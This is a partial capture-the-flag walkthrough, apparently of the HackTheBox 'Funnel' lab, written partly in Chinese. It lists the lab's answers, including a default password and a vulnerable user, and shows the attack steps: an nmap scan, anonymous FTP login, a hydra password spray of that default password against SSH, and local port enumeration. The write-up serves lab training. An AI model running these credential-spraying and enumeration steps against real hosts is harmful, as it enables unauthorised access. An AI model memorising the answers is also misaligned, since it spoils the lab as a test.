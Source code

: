 <center>Funnel</center>



[toc]







## Funnel

> Funnel







### 1. task

1. How many TCP ports are open?

```shell
2
```

2. What is the name of the directory that is available on the FTP server?

```shell
mail_backup
```

3. What is the default account password that every new member on the "Funnel" team should change as soon as possible?

```shell
funnel123#!#
```

4. Which user has not changed their default password yet?

```shell
christine
```

5. Which service is running on TCP port 5432 and listens only on localhost?

```shell
postgresql
```

6. Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?

```shell
local port forwarding
```

7. What is the name of the database that holds the flag?

```shell
secrets
```

8. Could you use a dynamic tunnel instead of local port forwarding? Yes or No.

```shell
yes
```







### 3. flag

>  获取flag

```shell
nmap -sC -sV IP
```

![image-20241202112103426](./assets/image-20241202112103426.png)

> ftp 匿名登陆

```shell
ftp IP
用户名： anonymous/空密码
```

> 下载ftp文件

![image-20241202112544598](./assets/image-20241202112544598.png)

```shell
cat welcome_28112022

optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb

cat password_policy.pdf

发现一个默认密码：funnel123#!#
```

> 对ssh和密码爆破

```shell
hydra -L user.txt -p "funnel123#!#" ssh://IP
```

> 登陆ssh

```shell
# 检查哪些端口在给定的机器上执行本地监听
ss -tln

# 检查在端口上运行的默认服务 为postgresql
ss -tl
```

> 确认有 postgresql 服务

```shell
# 检查并没有安装了postgresql客户端工具
psql

# 并且不能进行下载，需要root权限
apt install postgresql-client-common
```



